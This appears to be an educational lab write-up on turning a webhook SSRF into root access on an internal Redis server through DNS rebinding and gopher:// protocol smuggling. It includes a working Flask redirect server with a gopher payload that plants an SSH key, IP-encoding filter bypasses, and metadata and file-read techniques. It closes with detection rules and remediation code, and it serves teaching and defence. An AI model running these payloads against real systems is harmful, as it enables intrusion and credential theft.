

# API Ultra 04: Webhook SSRF to Internal Network Pivoting via Gopher

## 1. Executive Brief & Scenario Context
**Target:** `ci-cd.devops.local` (SaaS CI/CD Platform)
**Context:** You are assessing a CI/CD orchestration platform. Users can configure "Webhooks" to notify external services when a build succeeds. The platform allows users to input a custom URL. The objective is to pivot into the internal network and compromise an unauthenticated Redis server hosting internal configuration data at `10.0.0.5:6379`.
**Primary Defenses:**
- The Webhook URL validator rejects any IP address in the ranges `127.0.0.0/8`, `10.0.0.0/8`, `172.16.0.0/12`, and `192.168.0.0/16`.
- The application resolves domains to IPs before making the request to ensure the IP doesn't point to an internal resource (mitigating basic DNS Rebinding).
- `http://` and `https://` schemes are strictly enforced by the initial regex.

## 2. Architectural Diagram


## 3. The Attack Path

### Phase 1: Reconnaissance & Bypassing the SSRF Filter
The application attempts to prevent SSRF by resolving the provided domain to an IP address, checking the IP against a blacklist, and then fetching the URL using a standard HTTP client library (like Python's `urllib` or `requests`).

**Exploit Physics (Parser Differential & DNS Rebinding):**
There are two ways to bypass this. 
1. **Parser Differential:** The URL validation logic and the HTTP fetching logic might use different libraries. For example, if we use `http://1.1.1.1 &@127.0.0.1#@evil.com/`, the validator might parse the host as `evil.com`, but the HTTP client (due to a bug in handling the `@` and `#` symbols) might connect to `127.0.0.1`.
2. **DNS Rebinding:** We control a DNS server. When the validator checks the domain `rebind.evil.com`, we return a benign public IP (`8.8.8.8`) with a Time-To-Live (TTL) of 0. The validator approves the URL. Microseconds later, the HTTP client fetches the URL. Because the TTL is 0, the OS performs a second DNS query. This time, our DNS server responds with the internal IP `10.0.0.5`.

Let's use a specialized DNS rebinding service like `rbndr.us` or `1ip.io`:
`http://7f000001.0a000005.rbndr.us/` (Alternates between 127.0.0.1 and 10.0.0.5).

### Phase 2: Protocol Smuggling via HTTP Redirection to Gopher
We bypassed the filter, but we are sending an HTTP `GET` request. Redis doesn't speak HTTP natively (though it tolerates it loosely). We need to send arbitrary bytes to construct a Redis RESP (REdis Serialization Protocol) payload to gain RCE.

**Exploit Physics (The Redirect Chain):**
The webhook validator enforces `http://`. However, many HTTP clients automatically follow `302 Found` redirects. If the HTTP client supports other protocols (like `cURL` supports `gopher://`, `dict://`, `file://`), we can host a server that receives the HTTP request and redirects the internal client to a `gopher://` URL!

**Attacker Hosted Server (`redirect.py`):**
```python
from flask import Flask, redirect
app = Flask(__name__)

@app.route("/")
def index():
    # Redirect the CI/CD webhook engine to the internal Redis via Gopher!
    # Gopher allows sending raw TCP data.
    return redirect("gopher://10.0.0.5:6379/_*1%0D%0A$8%0D%0AFLUSHALL%0D%0A*3%0D%0A$3%0D%0ASET%0D%0A$1%0D%0A1%0D%0A$64%0D%0A%0A%0A%0A...ssh-rsa AAAAB3...%0A%0A%0A%0A%0D%0A*4%0D%0A$6%0D%0ACONFIG%0D%0A$3%0D%0ASET%0D%0A$3%0D%0Adir%0D%0A$11%0D%0A/root/.ssh/%0D%0A*4%0D%0A$6%0D%0ACONFIG%0D%0A$3%0D%0ASET%0D%0A$10%0D%0Adbfilename%0D%0A$15%0D%0Aauthorized_keys%0D%0A*1%0D%0A$4%0D%0ASAVE%0D%0A", code=302)

if __name__ == "__main__":
    app.run(port=80)
```

### Phase 3: The Gopher Payload & Redis RCE
When the CI/CD platform follows the redirect, it uses the `gopher://` protocol. The `_` is the gopher type character (ignored). The rest is raw TCP data sent to port 6379. 
We URL-encoded the Redis RESP commands. What does the payload do?
1. `FLUSHALL`: Clears the Redis database.
2. `SET 1 "\n\n\nssh-rsa AAAA...\n\n\n"`: Writes our SSH public key into memory, padded with newlines to avoid Redis binary data corruption.
3. `CONFIG SET dir /root/.ssh/`: Changes the Redis save directory to the SSH folder.
4. `CONFIG SET dbfilename authorized_keys`: Changes the database file name.
5. `SAVE`: Writes the memory to disk, effectively dropping our SSH key into `/root/.ssh/authorized_keys`.

*Impact:* We SSH into the internal Redis server as `root`. Total network pivot achieved.

## 4. Deep-Dive Interview Questions & Expert Answers

**Q1: Explain the Gopher protocol and why it is the "Holy Grail" of SSRF exploitation.**
**Expert Answer:** Gopher (RFC 1436) is a legacy distributed document search protocol from the early 1990s. Its "physics" are incredibly simple: whatever string follows the initial type character (usually `_`) is transmitted verbatim as a raw TCP stream to the target host and port, followed by a CRLF. Because it doesn't enforce strict headers or formatting like HTTP does, attackers can use Gopher to smuggle binary payloads, SMTP commands, Redis RESP commands, or FastCGI packets via an SSRF vulnerability, turning an HTTP SSRF into arbitrary protocol interaction.

**Q2: In the Redis payload, why do we pad the SSH key with multiple newlines (`\n\n\nssh-rsa...\n\n\n`)?**
**Expert Answer:** When Redis writes its database memory to disk via the `SAVE` command, it uses a proprietary binary serialization format (RDB). If we just wrote the SSH key, the resulting `.rdb` file would contain Redis binary headers, length prefixes, and our SSH key mashed together. The SSH daemon's parser (`sshd`) is very strict. If it encounters binary garbage, it might fail to parse the file. However, `sshd` ignores blank lines and unrecognized lines if they are cleanly separated. By padding with newlines, we isolate our valid `ssh-rsa` string on its own line, ensuring `sshd` successfully reads the key despite the surrounding RDB garbage.

**Q3: How does a Time-of-Check to Time-of-Use (TOCTOU) vulnerability manifest in SSRF URL validation?**
**Expert Answer:** This is the core mechanism of DNS Rebinding. The application *Checks* the URL by resolving the DNS to ensure it's not a private IP. This check passes. Later, the HTTP client *Uses* the URL by initiating the actual request. If the TTL of the DNS record is extremely short, the HTTP client performs a second DNS resolution. If the attacker changes the DNS record between the Check and the Use, the application securely validates an external IP but insecurely fetches an internal IP. 

**Q4: A developer patches the DNS Rebinding issue by pinning the resolved IP address: `client.get(resolved_ip, headers={'Host': domain})`. Is the system still vulnerable?**
**Expert Answer:** This effectively kills DNS Rebinding because the HTTP client uses the exact IP validated by the check phase. However, it might still be vulnerable to HTTP Host Header injection or Server Name Indication (SNI) routing issues. Furthermore, if the server is in a cloud environment (AWS, GCP), an attacker could point the webhook to the cloud metadata IP (e.g., `169.254.169.254`). Since this is a public/link-local address format, the validator might not blacklist it, leading to IAM credential theft.

**Q5: Why do we have to URL-encode the carriage returns (`\r\n` -> `%0d%0a`) in the Gopher payload?**
**Expert Answer:** The payload is transmitted initially as an HTTP redirect or a URL string. If we include raw carriage returns in an HTTP Location header, we cause an HTTP Response Splitting attack against our own server, breaking the redirect. Furthermore, the client's URL parser needs to correctly interpret the entire string as the URI path. When the `libcurl` or underlying library processes the `gopher://` URI, it URL-decodes the path before sending it over the raw TCP socket. Therefore, we must URL-encode the RESP protocol's `\r\n` terminators so they survive the URL parsing phase and arrive as raw bytes to Redis.

**Q6: You are exploiting an SSRF via a Python `urllib` application. You discover an internal Memcached server. How do you exploit it if `gopher://` is disabled?**
**Expert Answer:** Python's `urllib` was historically vulnerable to CRLF Injection in the URL itself. If you construct a URL like `http://127.0.0.1:11211/?%0d%0aset%20payload%200%200%2010%0d%0a...`, the HTTP request line injected with CRLF characters spills into the Memcached protocol space. Memcached (like Redis) is forgiving and processes line-by-line. It will ignore the initial `GET / HTTP/1.1` as a syntax error, but will successfully execute the injected `set` commands on the subsequent lines.

**Q7: Explain how an attacker can bypass IP blacklists using Alternative IP Encodings.**
**Expert Answer:** IPv4 addresses can be represented in multiple formats beyond the standard dotted-decimal. The OS networking stack automatically parses these.
- **Octal:** `0177.0.0.1` (127.0.0.1)
- **Hexadecimal:** `0x7f000001` or `0x7f.0.0.1` (127.0.0.1)
- **Integer (Decimal):** `2130706433` (127.0.0.1)
If the regex validator only checks for `^127\.`, an attacker providing the integer format completely bypasses the filter, but the underlying OS `inet_aton` function resolves it perfectly to localhost.

**Q8: In cloud environments, why is SSRF to `169.254.169.254` so devastating, and how did AWS mitigate this with IMDSv2?**
**Expert Answer:** The Instance Metadata Service (IMDS) resides at that IP and returns highly sensitive data, including temporary IAM role credentials that the EC2 instance operates under. An SSRF allows attackers to steal these tokens and assume the cloud role. AWS introduced IMDSv2 to mitigate this by requiring a `PUT` request to fetch a session token, and requiring that token in a custom header (`X-aws-ec2-metadata-token`) for subsequent `GET` requests. Since basic SSRFs usually only allow `GET` requests and cannot inject custom headers, IMDSv2 effectively neutralizes standard SSRF attacks.

**Q9: Can SSRF be used to exploit UDP services?**
**Expert Answer:** Generally, SSRF vulnerabilities utilize HTTP/TCP clients. However, if the protocol handler (like `dict://` or `gopher://`) interacts with an internal service that is susceptible to UDP spoofing, or if a specific vulnerability exists in the HTTP library that allows crafting UDP datagrams, it's theoretically possible. Practically, SSRF is limited to TCP unless specialized protocols (e.g., DNS queries triggered by the SSRF itself) are weaponized.

**Q10: The application uses libcurl to fetch URLs and restricts protocols to HTTP/HTTPS. How might you leak local files without `file://`?**
**Expert Answer:** If the backend follows redirects, and the libcurl configuration does not explicitly disable it, an attacker's HTTP server can redirect the client to `file:///etc/passwd`. Even if the initial validator enforced `http://`, the subsequent redirect might not be subject to the same strict validation, allowing local file disclosure.

## 5. Forensic Artifacts & Detection Engineering
**Identifying Gopher/Redis abuse in Network PCAPs:**
Because Gopher doesn't negotiate, the first packet sent to port 6379 will contain raw RESP data instead of an HTTP `GET` request. 
```bash
# Wireshark Display Filter to find HTTP requests to Redis ports
tcp.port == 6379 and frame contains "HTTP" 
# Filter to find raw RESP protocol commands
tcp.port == 6379 and frame contains "FLUSHALL"
```
**SIEM Rules (Elastic KQL):**
Detecting SSRF attempts to Cloud Metadata:
```kql
index=vpc_flow_logs
| where dest_ip == "169.254.169.254"
| stats count by src_ip
```

## 6. Remediation Code Snippet (Python requests)
Implementing a secure webhook dispatcher.
```python
import requests
import socket
import ipaddress
from urllib.parse import urlparse

def is_safe_url(url):
    try:
        parsed = urlparse(url)
        if parsed.scheme not in ["http", "https"]:
            return False # Mitigates Gopher/File/Dict
            
        # Resolve the hostname to an IP BEFORE making the request
        ip_addr = socket.gethostbyname(parsed.hostname)
        ip = ipaddress.ip_address(ip_addr)
        
        # Check against private, loopback, and metadata ranges
        if ip.is_private or ip.is_loopback or ip == ipaddress.ip_address("169.254.169.254"):
            return False
            
        return ip_addr
    except Exception:
        return False

def fire_webhook(url):
    safe_ip = is_safe_url(url)
    if not safe_ip:
        raise Exception("Invalid or internal URL")
        
    # PIN THE IP! Prevents DNS Rebinding (TOCTOU).
    # We connect directly to the validated IP, but pass the original Host header.
    headers = {"Host": urlparse(url).hostname}
    safe_url = f"{urlparse(url).scheme}://{safe_ip}{urlparse(url).path}"
    
    # Disable redirects to prevent protocol smuggling via 302
    response = requests.get(safe_url, headers=headers, allow_redirects=False, timeout=5)
    return response.text
```
